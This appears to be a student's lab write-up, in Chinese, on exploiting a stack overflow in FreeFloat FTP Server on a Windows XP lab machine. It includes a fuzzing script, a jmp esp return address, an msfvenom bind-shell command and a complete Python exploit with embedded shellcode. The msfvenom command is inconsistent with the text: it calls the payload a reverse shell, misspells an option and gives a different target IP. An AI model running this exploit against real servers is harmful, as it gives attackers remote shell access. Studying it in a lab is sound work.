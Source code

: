 ```yaml
---
title: 实验八--栈溢出漏洞利用
category: 学习笔记
tags: [网络渗透测试技术、栈溢出]
published: 2025-04-23 11:53:14
permalink: /course/pxbe1psj/
---
```

## 实验目的

1、掌握软件栈溢出漏洞的原理和如何利用漏洞

## 实验任务

1、对winxp靶机中的FreeFloat FTP Sever进行溢出漏洞测试

2、编写漏洞渗透程序

3、使用Metasploit来生成Shellcode

## 实验步骤

## 分析漏洞

在xp靶机上开启FTPServer

![实验八_image_1](./images/202312071129688.png)

在kali上连接ftp，直接输入aaa/aaa即可进行登录，可以登陆成功，即该服务器并没有对用户进行限制

![实验八_image_2](./images/202312071129132.png)

利用python生成一百个'a'登录，报错了

![实验八_image_3](./images/202312071129977.png)wireshark抓包得知，只发送出去了78个a

![实验八_image_4](./images/202312071130651.png)同时发送了100个a也没令软件崩溃，所以改用其他方法

### 使用脚本测试

python发包测试

```python
from pwn import *
p = remote("192.168.100.143", 21)
payload = 'A'*500
p.sendline(payload)
p.interactive()
```

![实验八_image_5](./images/202312071130617.png)
程序崩溃了
![实验八_image_6](./images/202312071130998.png)
此时eip指向了0x41414141，从发送的数据'A'的ascii码是0x41得知，USER输入点存在栈溢出漏洞
![实验八_image_7](./images/202312071130938.png)
进一步的验证分析就不进行了，网上有更详细的分析过程

## 漏洞利用

### 寻找jmp esp地址

![实验八_image_8](./images/202312071130653.png)

![实验八_image_9](./images/202312071130894.png)

![实验八_image_10](./images/202312071130878.png)

![实验八_image_11](./images/202312071130671.png)

![实验八_image_12](./images/202312071130922.png)

只有一个地址，那就用：77D4754A这个地址

### 生成shellcode

利用metasploit生成windows反弹shell的shellcode，排除坏数据’\x00\x0a\x0d’，以c语言格式输出，靶机IP：192.168.100.142

```bash
msfvenom -p windows/shell_bind_tcp LHOSTS=192.168.100.143 LPORT=4444 -b '\x00\x0a\x0d' -f c
```

![实验八_image_13](./images/202312071130078.png)
编写exp，这里使用的是python3的语法，在运行脚本前还需要安装pwntools
\x90为nop指令，起着类似滑板的作用

```python
from pwn import *
p = remote("192.168.100.143",21)
payload = b'A'*251
payload += p32(0x77D4754A)
payload += b'C'*8
payload += b'\x90'*20

shellcode = (
b"\xda\xcb\xd9\x74\x24\xf4\xb8\xcd\x8a\xb1\xec\x5a\x31\xc9"
b"\xb1\x53\x31\x42\x17\x83\xc2\x04\x03\x8f\x99\x53\x19\xf3"
b"\x76\x11\xe2\x0b\x87\x76\x6a\xee\xb6\xb6\x08\x7b\xe8\x06"
b"\x5a\x29\x05\xec\x0e\xd9\x9e\x80\x86\xee\x17\x2e\xf1\xc1"
b"\xa8\x03\xc1\x40\x2b\x5e\x16\xa2\x12\x91\x6b\xa3\x53\xcc"
b"\x86\xf1\x0c\x9a\x35\xe5\x39\xd6\x85\x8e\x72\xf6\x8d\x73"
b"\xc2\xf9\xbc\x22\x58\xa0\x1e\xc5\x8d\xd8\x16\xdd\xd2\xe5"
b"\xe1\x56\x20\x91\xf3\xbe\x78\x5a\x5f\xff\xb4\xa9\xa1\x38"
b"\x72\x52\xd4\x30\x80\xef\xef\x87\xfa\x2b\x65\x13\x5c\xbf"
b"\xdd\xff\x5c\x6c\xbb\x74\x52\xd9\xcf\xd2\x77\xdc\x1c\x69"
b"\x83\x55\xa3\xbd\x05\x2d\x80\x19\x4d\xf5\xa9\x38\x2b\x58"
b"\xd5\x5a\x94\x05\x73\x11\x39\x51\x0e\x78\x56\x96\x23\x82"
b"\xa6\xb0\x34\xf1\x94\x1f\xef\x9d\x94\xe8\x29\x5a\xda\xc2"
b"\x8e\xf4\x25\xed\xee\xdd\xe1\xb9\xbe\x75\xc3\xc1\x54\x85"
b"\xec\x17\xc0\x8d\x4b\xc8\xf7\x70\x2b\xb8\xb7\xda\xc4\xd2"
b"\x37\x05\xf4\xdc\x9d\x2e\x9d\x20\x1e\x41\x02\xac\xf8\x0b"
b"\xaa\xf8\x53\xa3\x08\xdf\x6b\x54\x72\x35\xc4\xf2\x3b\x5f"
b"\xd3\xfd\xbb\x75\x73\x69\x30\x9a\x47\x88\x47\xb7\xef\xdd"
b"\xd0\x4d\x7e\xac\x41\x51\xab\x46\xe1\xc0\x30\x96\x6c\xf9"
b"\xee\xc1\x39\xcf\xe6\x87\xd7\x76\x51\xb5\x25\xee\x9a\x7d"
b"\xf2\xd3\x25\x7c\x77\x6f\x02\x6e\x41\x70\x0e\xda\x1d\x27"
b"\xd8\xb4\xdb\x91\xaa\x6e\xb2\x4e\x65\xe6\x43\xbd\xb6\x70"
b"\x4c\xe8\x40\x9c\xfd\x45\x15\xa3\x32\x02\x91\xdc\x2e\xb2"
b"\x5e\x37\xeb\xc2\x14\x15\x5a\x4b\xf1\xcc\xde\x16\x02\x3b"
b"\x1c\x2f\x81\xc9\xdd\xd4\x99\xb8\xd8\x91\x1d\x51\x91\x8a"
b"\xcb\x55\x06\xaa\xd9")

payload += shellcode
p.sendline(payload)
p.close()
```

运行脚本，并使用nc进行连接即可成功获得shell
![实验八_image_14](./images/202312071130455.png)

## 参考

- https://rj45mp.github.io/Freefloat-FTP-Server1-0%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/
- https://bbs.kanxue.com/thread-266641.htm
